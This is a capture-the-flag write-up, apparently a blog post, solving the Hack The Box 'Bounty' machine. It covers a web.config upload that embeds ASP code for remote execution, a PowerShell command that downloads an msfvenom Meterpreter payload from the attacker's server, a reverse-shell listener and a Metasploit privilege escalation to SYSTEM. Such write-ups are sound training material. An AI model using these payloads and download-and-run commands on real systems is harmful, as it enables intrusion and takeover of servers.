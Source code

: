 ```yaml
---
slug: bounty-writeup/
title: Bounty Writeup
date: 2018-10-29
category: attacks
subtitle: How to resolve HTB Bounty
tags: security, htb, pwn, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/cover_plk66f.webp
alt: Hand holding a pirate toy
description: In this article, we present how to exploit a Bounty machine's
  vulnerabilities and how to gain access as
  an Administrator and obtain the root flag.
keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty, Vulnerabilities,
  Hacker, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: Be formless, shapeless like water, Bruce Lee
source: https://unsplash.com/photos/NctO2nqkWCY
---
```


## Scanning Phase

First, we check the IP of the
[Bounty](https://www.hackthebox.eu/home/machines/profile/142) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/bounty-ip_gqy6uf.webp)

</div>

**ping.**

``` bash
host$ ping -c2 10.10.10.93
```

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/ping\_trcnb5.webp\]

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

``` bash
host$ nmap 10.10.10.93
```

And, we see that there is only one port open `port 80`.

<div class="imgblock">

![nmap](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/nmap_earkie.webp)

</div>

Then, we try to access `port 80` with our browser, and it opens a web
page with an image of Merlin.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/web_fdltrp.webp)

</div>

As we see on this page, there is nothing more than an image, so we’re
going to scan the whole web server with `dirbuster` to see if we can
access something useful.

``` bash
host$ dirb http://10.10.10.91
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/dirb_ozvyui.webp)

</div>

Here we found a folder where uploaded files are stored. We need the page
of the upload functionality. With `dirbuster`, and some options, we can
set different extensions and obtain what we are looking for. Since this
is a `Windows` machine, we are going to use `asp` and `aspx` extensions.

``` bash
host$ dirb http://10.10.10.91 -X .asp,.aspx
```

<div class="imgblock">

![dirb-scan2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/dirb2_kjlopp.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/upload-page_eu4cfl.webp)

</div>

## Getting user

In the last step we got an upload page, but with no further
instructions. There we can try to upload an image and check the result.

<div class="imgblock">

![upload1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

But if we try with a webshell in `aspx` or `asp` it returns an error.

<div class="imgblock">

![upload2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/upload2_dgzfkc.webp)

</div>

The web server has a filter that possibly checks the extension of the
uploaded file. If you try with double extension it won’t work either.

So what can we do? In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`. We already tried the `asp` and `aspx`
extensions, what happens if we upload a `web.config` file?

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

<div class="imgblock">

![upload11](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

We can see the result is positive. The `web.config` file is used by
`IIS` servers to store settings that come with the installation of the
`API`.

With this, we can start to exploit this machine. There is a
vulnerability on the `web.config` file processing that could allow an
attacker to execute code remotely, by injecting `asp` code in the file
(More information can be found
[here](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
).

So, in order to have remote code execution (`RCE`), we need to add the
following lines to our `web.config` file:

``` text
  <!--
  <%
  Response.write("-"&"->")
  Response.write("</p><pre>")
  Set wShell1 = CreateObject("WScript.Shell")
  Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
  output1 = cmd1.StdOut.Readall()
  set cmd1 = nothing: Set wShell1 = nothing
  Response.write(output1)
  Response.write("</pre><p><!-"&"-")
  %>
  -->
```

Then, we upload it, and access the file via the web, as before.

<div class="imgblock">

![rce-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/rce-ok_ae3o75.webp)

</div>

**Eureka\!** With this, we can have our user flag, but we want an active
shell that we can use for further enumeration. For this, we can use
`msfvenom`. This is a tool that creates payloads in order to gain access
to a machine. It is installed by default on `Kali`; it also comes with
the installation of `Metasploit`. Then, we upload our file to the server
with our `RCE` and start a web server on our side to download our
exploit.

First, the exploit with msfvenom:

``` bash
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
```

This will create a malicious file. When executed on the server it will
give us a reverse shell with our `RCE` file using `meterpreter`. This is
an advanced, dynamically extensible payload that uses in-memory `DLL`
injection stagers, and is extended over the network at runtime.

Then we need to start a web server in our machine. We can do it with
`Python` by running:

``` bash
host$ python -m SimpleHTTPServer 7000
```

To make the server download our file, we can use the next `PowerShell`
command in our `web.config` file replacing the `whoami` one:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
```

Upload it, and then open it on a private tab. Now, we can see that the
server downloaded our file.

<div class="imgblock">

![download](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/download_cxvzgn.webp)

</div>

Then we need to start our listener. We can use `Metasploit` to do it:

``` bash
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
```

With this, we are ready to initiate our reverse shell. In order to do
it, we need to run our exploit on the server with the same `RCE` method
as before, changing the command to the following:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
```

Upload it, open the page of the `web.config` file and we have our
reverse shell.

<div class="imgblock">

![reverse-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330671/blog/bounty-writeup/reverse-shell_v0yoxx.webp)

</div>

## Getting root

With `meterpreter` we can start to enumerate the server.

<div class="imgblock">

![sys-info](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/sys-info_wlfn7g.webp)

</div>

And, we see that the server has an `x64 Architecture`. We are going to
repeat the process (`msfvenom`, `upload`, `handler`, `run`) but now with
the payload:

``` text
windows/x64/meterpreter/reverse_tcp
```

Then, when we have another session opened, we are going to run the next
one:

``` bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

<div class="imgblock">

![exploit-suggester](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/exploit-suggester_cr3q7v.webp)

</div>

Here we got some exploits that we can use to elevate to `Administrator`,
we are going to use the first one with:

``` bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
```

When it finishes, we will have a new session created and with user `NT
Authority\System`.

<div class="imgblock">

![admin](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/admin_bqoqsf.webp)

</div>

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability with the
`web.config` file. We also learned to always check the architecture when
we access a machine as a user, and how to use some of the `meterpreter`
commands.
